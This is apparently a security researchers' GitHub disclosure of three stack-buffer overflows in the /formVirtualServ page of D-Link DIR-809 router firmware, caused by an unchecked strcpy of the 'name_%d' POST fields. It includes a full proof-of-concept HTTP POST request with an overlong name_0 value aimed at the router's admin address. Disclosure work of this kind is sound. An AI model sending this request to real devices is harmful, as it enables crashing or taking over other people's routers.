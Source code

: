 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formVirtualServ` which influence the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `FUN_8004776c` ( page `/formVirtualServ` ), we find three stack overflow vulnerabilities which are of the same type. Each vulnerability allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description of the first vulnerability, 

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"name_%d"` in the http post request, which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied to stack using `strcpy` without any check. So we can make the stack buffer overflow in `acStack248`. 

![image-20210509202545665](README/image-20210509202545665.png)

The second and third vulnerabilities follow the same paradigm as the first. Two figures below will illustrate them. 

![image-20210509202715111](README/image-20210509202715111.png)

![image-20210509203316957](README/image-20210509203316957.png)



## PoC

``` 
POST /formVirtualServ.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 4983
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Virtual_Server.asp?t=1620556982214
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=sVlZzC4RHx
Connection: close

settingsChanged=1&curTime=1620557025736&HNAP_AUTH=B57888CD9D38113835E437CE4735DFC4+1620557025&submit-url=%2FAdvanced%2FVirtual_Server.asp&index=1&enabled_0=0&used_0=0&name_0=1231231231233*0x200&default_virtual_servers_0=-1&public_port_0=10000&public_port_to_0=10000&ip_0=192.168.0.34&computer_list_ipaddr_select_0=-1&private_port_0=10000&hidden_private_port_to_0=10000&protocol_0=1&index=2&enabled_1=0&used_1=0&name_1=&default_virtual_servers_1=-1&public_port_1=&public_port_to_1=&ip_1=&computer_list_ipaddr_select_1=-1&private_port_1=&hidden_private_port_to_1=&protocol_1=1&index=3&enabled_2=0&used_2=0&name_2=&default_virtual_servers_2=-1&public_port_2=&public_port_to_2=&ip_2=&computer_list_ipaddr_select_2=-1&private_port_2=&hidden_private_port_to_2=&protocol_2=1&index=4&enabled_3=0&used_3=0&name_3=&default_virtual_servers_3=-1&public_port_3=&public_port_to_3=&ip_3=&computer_list_ipaddr_select_3=-1&private_port_3=&hidden_private_port_to_3=&protocol_3=1&index=5&enabled_4=0&used_4=0&name_4=&default_virtual_servers_4=-1&public_port_4=&public_port_to_4=&ip_4=&computer_list_ipaddr_select_4=-1&private_port_4=&hidden_private_port_to_4=&protocol_4=1&index=6&enabled_5=0&used_5=0&name_5=&default_virtual_servers_5=-1&public_port_5=&public_port_to_5=&ip_5=&computer_list_ipaddr_select_5=-1&private_port_5=&hidden_private_port_to_5=&protocol_5=1&index=7&enabled_6=0&used_6=0&name_6=&default_virtual_servers_6=-1&public_port_6=&public_port_to_6=&ip_6=&computer_list_ipaddr_select_6=-1&private_port_6=&hidden_private_port_to_6=&protocol_6=1&index=8&enabled_7=0&used_7=0&name_7=&default_virtual_servers_7=-1&public_port_7=&public_port_to_7=&ip_7=&computer_list_ipaddr_select_7=-1&private_port_7=&hidden_private_port_to_7=&protocol_7=1&index=9&enabled_8=0&used_8=0&name_8=&default_virtual_servers_8=-1&public_port_8=&public_port_to_8=&ip_8=&computer_list_ipaddr_select_8=-1&private_port_8=&hidden_private_port_to_8=&protocol_8=1&index=10&enabled_9=0&used_9=0&name_9=&default_virtual_servers_9=-1&public_port_9=&public_port_to_9=&ip_9=&computer_list_ipaddr_select_9=-1&private_port_9=&hidden_private_port_to_9=&protocol_9=1&index=11&enabled_10=0&used_10=0&name_10=&default_virtual_servers_10=-1&public_port_10=&public_port_to_10=&ip_10=&computer_list_ipaddr_select_10=-1&private_port_10=&hidden_private_port_to_10=&protocol_10=1&index=12&enabled_11=0&used_11=0&name_11=&default_virtual_servers_11=-1&public_port_11=&public_port_to_11=&ip_11=&computer_list_ipaddr_select_11=-1&private_port_11=&hidden_private_port_to_11=&protocol_11=1&index=13&enabled_12=0&used_12=0&name_12=&default_virtual_servers_12=-1&public_port_12=&public_port_to_12=&ip_12=&computer_list_ipaddr_select_12=-1&private_port_12=&hidden_private_port_to_12=&protocol_12=1&index=14&enabled_13=0&used_13=0&name_13=&default_virtual_servers_13=-1&public_port_13=&public_port_to_13=&ip_13=&computer_list_ipaddr_select_13=-1&private_port_13=&hidden_private_port_to_13=&protocol_13=1&index=15&enabled_14=0&used_14=0&name_14=&default_virtual_servers_14=-1&public_port_14=&public_port_to_14=&ip_14=&computer_list_ipaddr_select_14=-1&private_port_14=&hidden_private_port_to_14=&protocol_14=1&index=16&enabled_15=0&used_15=0&name_15=&default_virtual_servers_15=-1&public_port_15=&public_port_to_15=&ip_15=&computer_list_ipaddr_select_15=-1&private_port_15=&hidden_private_port_to_15=&protocol_15=1&index=17&enabled_16=0&used_16=0&name_16=&default_virtual_servers_16=-1&public_port_16=&public_port_to_16=&ip_16=&computer_list_ipaddr_select_16=-1&private_port_16=&hidden_private_port_to_16=&protocol_16=1&index=18&enabled_17=0&used_17=0&name_17=&default_virtual_servers_17=-1&public_port_17=&public_port_to_17=&ip_17=&computer_list_ipaddr_select_17=-1&private_port_17=&hidden_private_port_to_17=&protocol_17=1&index=19&enabled_18=0&used_18=0&name_18=&default_virtual_servers_18=-1&public_port_18=&public_port_to_18=&ip_18=&computer_list_ipaddr_select_18=-1&private_port_18=&hidden_private_port_to_18=&protocol_18=1&index=20&enabled_19=0&used_19=0&name_19=&default_virtual_servers_19=-1&public_port_19=&public_port_to_19=&ip_19=&computer_list_ipaddr_select_19=-1&private_port_19=&hidden_private_port_to_19=&protocol_19=1&index=21&enabled_20=0&used_20=0&name_20=&default_virtual_servers_20=-1&public_port_20=&public_port_to_20=&ip_20=&computer_list_ipaddr_select_20=-1&private_port_20=&hidden_private_port_to_20=&protocol_20=1&index=22&enabled_21=0&used_21=0&name_21=&default_virtual_servers_21=-1&public_port_21=&public_port_to_21=&ip_21=&computer_list_ipaddr_select_21=-1&private_port_21=&hidden_private_port_to_21=&protocol_21=1&index=23&enabled_22=0&used_22=0&name_22=&default_virtual_servers_22=-1&public_port_22=&public_port_to_22=&ip_22=&computer_list_ipaddr_select_22=-1&private_port_22=&hidden_private_port_to_22=&protocol_22=1&index=24&enabled_23=0&used_23=0&name_23=&default_virtual_servers_23=-1&public_port_23=&public_port_to_23=&ip_23=&computer_list_ipaddr_select_23=-1&private_port_23=&hidden_private_port_to_23=&protocol_23=1
```





## Acknowledgment

Credit to [@peanuts62](https://github.com/peanuts62), [@Yu3H0](https://github.com/Yu3H0/) , [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

